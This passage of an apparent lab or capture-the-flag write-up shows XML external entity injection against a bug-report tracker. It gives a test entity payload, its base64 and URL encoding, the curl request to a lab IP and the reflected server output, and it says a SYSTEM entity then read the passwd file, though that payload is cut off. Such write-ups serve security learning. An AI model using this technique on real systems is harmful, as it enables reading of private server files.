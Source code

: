 This allowed the tester to create a custom entity and reference it in the request. The service encoded the request using base64 and percent-encoding (URL), therefore the tester used the decoder feature on burp suite to encode and decode requests. To decode, requires URL then base64. To encode the request, to be sent back to the server requires the reverse, base64 then URL.


```unencoded data
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE email [
 	<!ENTITY test  "This is a test">
	]>
		<bugreport>
		<title>&test;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```


```encoded data sent using curl
┌─[rang3r@parrot]─[~]
└──╼ $curl -X POST http://10.10.11.100/tracker_diRbPr00f314.php --data "data=%50%44%39%34%62%57%77%67%49%48%5a%6c%63%6e%4e%70%62%32%34%39%49%6a%45%75%4d%43%49%67%5a%57%35%6a%62%32%52%70%62%6d%63%39%49%6b%6c%54%54%79%30%34%4f%44%55%35%4c%54%45%69%50%7a%34%4b%43%54%77%68%52%45%39%44%56%46%6c%51%52%53%42%6c%62%57%46%70%62%43%42%62%43%69%41%4a%50%43%46%46%54%6c%52%4a%56%46%6b%67%64%47%56%7a%64%43%41%67%49%6c%52%6f%61%58%4d%67%61%58%4d%67%59%53%42%30%5a%58%4e%30%49%6a%34%4b%43%56%30%2b%43%67%6b%4a%50%47%4a%31%5a%33%4a%6c%63%47%39%79%64%44%34%4b%43%51%6b%38%64%47%6c%30%62%47%55%2b%4a%6e%52%6c%63%33%51%37%50%43%39%30%61%58%52%73%5a%54%34%4b%43%51%6b%38%59%33%64%6c%50%6e%52%6c%63%33%51%38%4c%32%4e%33%5a%54%34%4b%43%51%6b%38%59%33%5a%7a%63%7a%35%30%5a%58%4e%30%50%43%39%6a%64%6e%4e%7a%50%67%6f%4a%43%54%78%79%5a%58%64%68%63%6d%51%2b%64%47%56%7a%64%44%77%76%63%6d%56%33%59%58%4a%6b%50%67%6f%4a%43%54%77%76%59%6e%56%6e%63%6d%56%77%62%33%4a%30%50%67%3d%3d"
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>This is a test</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>test</td>
  </tr>
</table>
```

You can see above that the service used referenced and printed the entity. In this case "This is a test!". This vulnerability enabled the tester to read local files using the "system" keyword to define as external reference, which was tested by viewing the passwd file using the below payload encoded.

